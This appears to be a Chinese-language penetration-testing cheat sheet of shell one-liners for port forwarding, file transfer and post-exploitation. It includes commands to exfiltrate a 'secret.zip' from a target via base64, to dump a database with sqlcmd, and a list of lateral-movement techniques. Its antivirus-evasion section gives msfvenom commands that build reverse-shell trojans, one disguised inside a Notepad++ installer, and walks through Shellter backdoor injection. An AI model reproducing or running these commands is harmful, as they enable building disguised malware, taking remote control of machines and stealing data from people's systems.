


综合技巧
========================================

临时服务器
----------------------------------------
- python方式
	+ ``python2 - m SimpleHTTPServer``
	+ ``python3 -m http.server 8888``
- php方式
	+ ``php -S 127.0.0.2:8181 -t /www /www/app.php``

端口转发
----------------------------------------
- nc
	- 端口扫描
		+ 默认TCP：``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ 将本地9000端口数据转发到192.168.100.2/8000：``mkfifo tmp/fifo|cat /tmp/fifo | nc 192.168.100.2 8000 | nc -l 9000 > /tmp/fifo`` 
		+ 访问：``nc -n 192.168.1.102 9000`` 
- socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 

传输数据
----------------------------------------
- nc
	+ 连续传输两个数据包：``cat poc1.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2 | cat poc2.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2``
	+ dat文件存储数据包内容
	+ ``sed s'/.$//'`` 为去掉最后一个字节0a
	+ -u参数表示使用udp协议

文件传输
----------------------------------------
- nc
	- 文件传输
		+ 将B机器上的file.txt传输到A机器上
		+ ``A机器：nc -lvp 1567 > file.txt``
		+ ``B机器：nc 172.31.100.7 1567 < file.txt``
	- 目录传输
		+ ``tar -cvf – dir_name | nc -l 1567``
		+ ``nc -n 172.31.100.7 1567 | tar -xvf -``
	- 加密传输
		+ ``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
		+ ``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``
- python
	- 目标机器转base64
		+ ``目标机器有python：python -c 'print(__import__("base64").b64encode(open("secret.zip", "rb").read()))'``
	- 个人机器还原
		+ ``cat - > zip.txt``
		+ ``输入拿到的base64串：UEsDBBQACQAIAEZ/CE8bl，输入完成按回车``
		+ ``^C即ctrl+c``
		+ ``还原文件：base64 -d zip.txt > secret.zip``

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

netstat
-----------------------------------------

|netstat|

- Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
- Address：端口
- Foregin Address：对外开放，一般都为0.0.0.0：* 
- Program name：此端口是那个程序在用，程序挂载此端口
- 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
- 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
- ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

免杀
-----------------------------------------
- MSF制作免杀木马
	- 列出所有可用编码
		``msfvemon -l encoders``
	- 裸奔木马
		``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
	- 免杀木马
		``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

	|msfvemon1|

- Shellter动态注入工具
	- 下载地址
		``https://www.shellterproject.com/download/``
	- Choose Operation Mode - Auto/Manual (A/M/H)
		选择模式: 自动模式自动注入后门，M高级模式，H帮助
	- PE Target：
		注入的程序.
	- Enable Stealth Mode?
		是否启用隐身模式
	- Use a listed payload or custom? (L/C/H)
		使用攻击模块列表或者自定义
	- Select payload by index:
		选择payload序号
	- SET LHOST
		设置反弹回来的IP 本机
	- SET LPORT
		设置接收反弹的端口
		
提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``

